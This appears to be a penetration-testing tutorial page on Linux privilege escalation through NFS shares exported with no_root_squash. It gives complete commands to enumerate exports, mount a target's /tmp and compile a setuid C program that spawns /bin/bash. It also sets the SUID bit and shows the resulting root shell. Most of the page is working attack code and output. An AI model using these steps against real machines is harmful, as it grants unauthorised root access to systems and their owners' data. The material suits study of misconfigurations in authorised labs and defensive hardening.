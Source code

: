 ```yaml
---
description: >-
  Sharing a fileserver over the network sometimes allows you to upload files as
  root and escalate privileges
---
```


# Network File Sharing (NFS)

## Finding NFS folders

To find a list of all configured NFS folders, just look in the `/etc/exports` file.&#x20;

```bash
cat /etc/exports
```

This file shows the directories paths, and the rules for sharing. An example would be the following:

```bash
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_subtree_check)
```

The danger here is the `no_root_squash` option. If you see this, it means that any files uploaded here will keep their root privileges. We can abuse this to upload programs that can be ran as root on the target machine.&#x20;

### Finding NFS folders from the outside

We can also find these locations from our host machine, but without the rules associated with them. Using the `showmount -e` command:

```bash
showmount -e 10.10.158.49
```

This will show a list of folders like this:

{% code title="$ showmount -e 10.10.158.49" %}
```bash
Export list for 10.10.158.49: 
/home/ubuntu/sharedfolder * 
/tmp * 
/home/backup *
```
{% endcode %}

## Uploading a SUID binary

The trick to exploiting this is to upload a **SUID** binary that executes the code we want. Then we can run it as the user we have on the target system and elevate to root privileges.&#x20;

We'll start by connecting to the target machine, by mounting it to a local folder. First make a folder somewhere that will be mounted to the target. Then mount it using the `mount` command to one of the targets folders with the `no_root_squash` set. Finally to make it easier for myself, I change the owner of the `target_tmp` directory on my host to my own user, because we created it with `sudo`.&#x20;

```bash
mkdir target_tmp
sudo mount -o rw 10.10.158.49:/tmp target_tmp/
sudo chown $USER:$(id -g) target_tmp/
```

{% hint style="info" %}
**Tip**: You can view your active mounts by looking at your `/proc/mounts` file. Then when you want to disconnect you can unmount the directory with the `umount` command.&#x20;
{% endhint %}

Now the `target_tmp` folder is connected to the target machine's `/tmp` directory. Then we can start on creating the malicious binary, that executes the `/bin/bash` command for example.&#x20;

{% code title="shell.c" %}
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
{% endcode %}

Then we can compile it into the target directory. Make sure you use `sudo` for the `gcc` command to ensure that the file owner is root when we upload it.&#x20;

```bash
sudo gcc shell.c -o target_tmp/shell
```

Finally we need to set the SUID bit on this binary, to make sure that when we execute it our privileges get set to root.&#x20;

```bash
sudo chmod u+s target_tmp/shell
```

Now if we look on the target machine, we see that we have created a `shell` program that is owned by root, and has the SUID bit set (seen by the `s` in the permissions).

```shell-session
$ ls -laF /tmp/shell
-rwsr-xr-x 1 root root 16784 Feb 27 09:42 /tmp/shell*
   ^
```

This means we can now just run the `/tmp/shell` program on the target with our low-privilege user, to get a root shell.&#x20;

```shell-session
$ /tmp/shell
# id
uid=0(root) gid=0(root) groups=0(root)
```
